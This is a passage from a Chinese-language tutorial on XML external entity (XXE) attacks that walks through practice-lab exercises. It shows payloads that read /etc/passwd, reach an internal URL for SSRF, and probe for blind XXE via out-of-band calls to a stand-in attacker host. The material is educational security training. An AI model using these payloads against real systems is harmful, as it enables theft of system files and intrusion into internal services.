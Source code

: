 ```
&lt;?xml version="1.0" encoding="UTF-8"?&gt;
&lt;!DOCTYPE foo [ &lt;!ENTITY xxe SYSTEM "file:///etc/passwd"&gt; ]&gt;
&lt;stockCheck&gt;&lt;productId&gt;&amp;xxe;&lt;/productId&gt;&lt;/stockCheck&gt;
```

这样我们就可以获取到/etc/passwd的内容了。

### <a class="reference-link" name="%E9%85%8D%E5%A5%97%E9%9D%B6%E5%9C%BA%EF%BC%9A%E5%88%A9%E7%94%A8XXE%E8%8E%B7%E5%8F%96%E6%96%87%E4%BB%B6%E5%86%85%E5%AE%B9"></a>配套靶场：利用XXE获取文件内容

首先我们随便进入一个商品页面，然后点击按钮触发一个post请求，然后把这个请求发到repeater里添加一个dtd引入自定义实体。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t016c6df483c5f4ac71.png)

从上图来看，这是一个非常经典的利用XXE获取文件内容的例子了

### <a class="reference-link" name="%E5%88%A9%E7%94%A8XXE%E5%8F%91%E5%8A%A8SSRF%E6%94%BB%E5%87%BB"></a>利用XXE发动SSRF攻击

在前面的SSRF专题我们讲过这种攻击方式，该种攻击方式是通过XXE诱导服务器访问指定的URL从而发动SSRF攻击，例如<br>`&lt;!DOCTYPE foo [ &lt;!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"&gt; ]&gt;`

### <a class="reference-link" name="%E9%85%8D%E5%A5%97%E9%9D%B6%E5%9C%BA%EF%BC%9A%E5%88%A9%E7%94%A8XXE%E5%8F%91%E5%8A%A8SSRF%E6%94%BB%E5%87%BB"></a>配套靶场：利用XXE发动SSRF攻击

构造payload的方式与上一道题类似，只不过是将URL替换为可以获取到用户敏感信息的URL

[![](https://p5.ssl.qhimg.com/t019a8509b3e58b432c.png)](https://p5.ssl.qhimg.com/t019a8509b3e58b432c.png)

从上图我们看到可以响应中反馈了很多敏感信息

### <a class="reference-link" name="%E4%BB%80%E4%B9%88%E6%98%AFXXE%E7%9B%B2%E6%89%93%EF%BC%9F"></a>什么是XXE盲打？

与SQL盲注类似，就是我们无法直接从响应中获取到想要的结果，但是我们可以通过如带外的方式将结果发送到接收端的方式实现。前面讲过可以利用XXE发动SSRF攻击请求URL，我们可以将结果附在URL后面，这样在接收端就能接收到结果了。我们还可以通过触发报错信息的方式获取敏感信息。

### <a class="reference-link" name="%E4%BD%BF%E7%94%A8%E5%B8%A6%E5%A4%96(OAST)%E6%8A%80%E6%9C%AF%E6%8E%A2%E6%B5%8BXXE%E7%9B%B2%E6%89%93"></a>使用带外(OAST)技术探测XXE盲打

如利用XXE发动SSRF攻击，带外技术通过XXE与远端服务器进行交互，从而探测是否存在XXE盲打漏洞，例如<br>`&lt;!DOCTYPE foo [ &lt;!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"&gt; ]&gt;`<br>
有些情况下，目标服务器对常规XXE攻击进行了防护，不过我们可以尝试使用XML参数实体，例如<br>`&lt;!DOCTYPE foo [ &lt;!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"&gt; %xxe; ]&gt;`

通过定义参数实体同样可以用来探测XXE盲打。

### <a class="reference-link" name="%E9%85%8D%E5%A5%97%E9%9D%B6%E5%9C%BA1%EF%BC%9A%E4%BD%BF%E7%94%A8%E5%B8%A6%E5%A4%96%E4%BA%A4%E4%BA%92%E7%9A%84XXE%E7%9B%B2%E6%89%93"></a>配套靶场1：使用带外交互的XXE盲打
